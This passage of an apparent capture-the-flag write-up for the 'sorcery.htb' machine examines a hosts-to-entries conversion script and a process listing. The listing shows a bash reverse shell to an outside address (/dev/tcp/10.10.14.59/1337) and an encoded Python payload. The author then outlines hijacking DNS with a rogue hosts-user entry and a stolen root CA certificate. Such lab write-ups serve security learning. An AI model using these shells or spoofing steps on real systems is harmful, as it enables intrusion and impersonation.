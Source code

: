 Checking out the `convert.sh` file.

```bash
user@7bfb70ee5b9c:/dns$ cat convert.sh
#!/bin/bash

entries_file=/dns/entries
hosts_files=("/dns/hosts" "/dns/hosts-user")

> $entries_file

for hosts_file in ${hosts_files[@]}; do
  while IFS= read -r line; do
    key=$(echo $line | awk '{ print $1 }')
    values=$(echo $line | cut -d ' ' -f2-)

    for value in $values; do
      echo "$key $value" >> $entries_file
    done
  done < $hosts_file
```

This file just simply read out the `hosts` and `hosts-user` files and write to the `entries` file. <br>

If we checking the process running on the machine, we can see that there is a `dnsmasq` process running.

```bash
user@7bfb70ee5b9c:/app$ ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   3924  2944 ?        Ss   10:08   0:00 /bin/bash /docker-entrypoint.sh
root           9  0.0  0.3  36976 29968 ?        S    10:08   0:03 /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisor/supervisord.conf
root          10  0.0  0.0   2576  1408 ?        S    10:08   0:00 sh -c while true; do printf "READY\n"; read line; kill -9 $PPID; printf "RESULT 2\n"; printf "OK"; done
user          11  0.1  0.0   8812  4352 ?        S    10:08   0:13 /app/dns
user          12  0.0  0.0  11572  4608 ?        S    10:08   0:00 /usr/sbin/dnsmasq --no-daemon --addn-hosts /dns/hosts-user --addn-hosts /dns/hosts
user          23  0.0  0.0   4300  2944 ?        S    12:36   0:00 bash -c /bin/bash -i >& /dev/tcp/10.10.14.59/1337 0>&1
user          24  0.3  0.0   4300  3072 ?        S    12:36   0:00 /usr/bin/bash
user          52  0.3  0.1  16080 11136 ?        S    12:36   0:00 /usr/bin/python3 -Wignore -c import base64,zlib;exec(zlib.decompress(base64.b64decode("eNqVWV9v40YOf5Y+xaz7YK
user          53  0.0  0.0   4564  3584 pts/0    Ss   12:36   0:00 /usr/bin/bash -i
user          57  0.0  0.0   8436  4224 pts/0    R+   12:36   0:00 ps -aux
```

Combine these with information we get from the `Blog` section. <br>
- `<subdomain>.sorcery.htb` which we can create a file `/dns/hosts-user` and write a rule that points a subdomain to our machine.
- Need to setup an HTTPS server with a certificate signed by the root CA, which is "securely" stored on the FTP server.
- Also need to restart the process `dnsmasq` to apply our new DNS rules.
